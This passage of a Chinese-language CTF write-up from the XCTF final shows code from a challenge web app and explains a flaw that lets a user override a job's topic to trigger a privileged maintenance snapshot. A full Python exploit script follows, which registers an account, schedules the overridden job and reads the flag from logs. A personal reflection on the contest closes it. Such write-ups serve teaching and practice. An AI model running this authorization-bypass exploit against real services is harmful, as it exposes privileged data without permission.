# File: app/routes/pulsebus.py
     
 @router.post("/relays/{relay_id}/schedule", ...)
 def schedule_job(..., payload: schemas.PulseScheduleRequest, ...):
     # ...
     job = await bus.submit(
         user.id,
         relay_id,
         payload.task,
         topic=payload.topic,
         params=payload.params.model_dump(),
     )
     # ...
```

直接覆盖topic

```python
# File: app/pulsebus/core.py
     
 async def _execute_job(self, ctx: dict, job_id: str, topic: str, params: dict):
     # ...
     if topic == "maintenance.vault.snapshot":
         # ...
         resp = await self._http_get(url, headers={"Authorization": f"Bearer {token}"})
         await self.write_log(job_id, "maintenance snapshot complete", data=resp)
```

然后写入日志，exp 如下

```python
#!/usr/bin/env python3
import argparse
import secrets
import time
from typing import Optional

import requests
from requests.adapters import HTTPAdapter
from urllib3.util.retry import Retry


def api(base_url: str, path: str) -> str:
    return f"{base_url.rstrip('/')}{path}"


def make_session() -> requests.Session:
    s = requests.Session()
    retries = Retry(
        total=5,
        connect=3,
        read=3,
        backoff_factor=0.5,
        status_forcelist=[502, 503, 504],
        allowed_methods={"GET", "POST"},
        raise_on_status=False,
    )
    adapter = HTTPAdapter(max_retries=retries)
    s.mount("http://", adapter)
    s.mount("https://", adapter)
    return s


def register(base_url: str, session: Optional[requests.Session] = None) -> str:
    s = session or make_session()
    username = f"team_{secrets.token_hex(6)}"
    password = secrets.token_urlsafe(12)
    r = s.post(api(base_url, "/api/users/register"), json={"username": username, "password": password}, timeout=10)
    r.raise_for_status()
    return r.json()["token"]


def create_relay(base_url: str, bearer: str, session: Optional[requests.Session] = None) -> str:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    r = s.post(api(base_url, "/api/relays"), json={"name": "Orbital Relay"}, headers=headers, timeout=10)
    r.raise_for_status()
    return r.json()["id"]


def schedule_maintenance_snapshot(base_url: str, bearer: str, relay_id: str, session: Optional[requests.Session] = None) -> dict:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    payload = {
        "task": "telemetry.collect",  # 模板存在即可
        "topic": "maintenance.vault.snapshot",  # 覆盖成维护快照主题
        "params": {},
    }
    r = s.post(api(base_url, f"/api/pulsebus/relays/{relay_id}/schedule"), json=payload, headers=headers, timeout=10)
    r.raise_for_status()
    return r.json()


def fetch_logs(base_url: str, bearer: str, relay_id: str, session: Optional[requests.Session] = None) -> list:
    s = session or make_session()
    headers = {"Authorization": f"Bearer {bearer}"}
    r = s.get(api(base_url, f"/api/relays/{relay_id}/logs"), headers=headers, timeout=10)
    r.raise_for_status()
    return r.json().get("logs", [])


def main() -> None:
    parser = argparse.ArgumentParser(description="pulsebus 主题覆盖触发维护快照，从日志读取 flag")
    parser.add_argument("base_url", nargs="?", default="http://localhost:10000", help="目标基础URL，例如 http://localhost:10000")
    args = parser.parse_args()

    s = make_session()
    print(f"[*] Target: {args.base_url}")
    token = register(args.base_url, s)
    print(f"[+] Bearer: {token[:16]}…")
    relay_id = create_relay(args.base_url, token, s)
    print(f"[+] Relay: {relay_id}")
    job = schedule_maintenance_snapshot(args.base_url, token, relay_id, s)
    print(f"[+] Scheduled job: {job.get('job_id')} topic={job.get('topic')}")

    # 轮询日志，等待 worker 写入维护快照结果
    for attempt in range(10):
        logs = fetch_logs(args.base_url, token, relay_id, s)
        for entry in logs:
            payload = entry.get("payload", {})
            flag = payload.get("flag")
            if flag:
                print(f"[+] FLAG via pulsebus: {flag}")
                return
        time.sleep(0.8)

    raise SystemExit("[-] 未在日志中找到 flag，可能 worker 未执行或主题被修复。")


if __name__ == "__main__":
    main()
```

## 小结

第一次参加XCTF final，也是最后一次，很可惜，第二天AD被打爆了，好像就差8分就是二等奖。

第一天CTF打的还行，但是我电脑怎么搭建代理都搭建不好，所以我还专门在博客发了一篇文章，当时洪老师和书鱼哥哥直接远程给我配，😍。见到了不少师傅，**unk\qanux\jay17等**，unk队真温柔，突然回想起去年想加入VN，无论问什么问题，他都会细心回答我，还有我一起打国际赛的suers（好兄弟）那更不用说，虽然互相压力，但是也互相包容，就是家人的感觉，第一天晚上刚到就开始畅谈～🥰

感谢 0ops 的大哥们 A&D 打了 18w 分，不然我可能就是优秀奖了😭
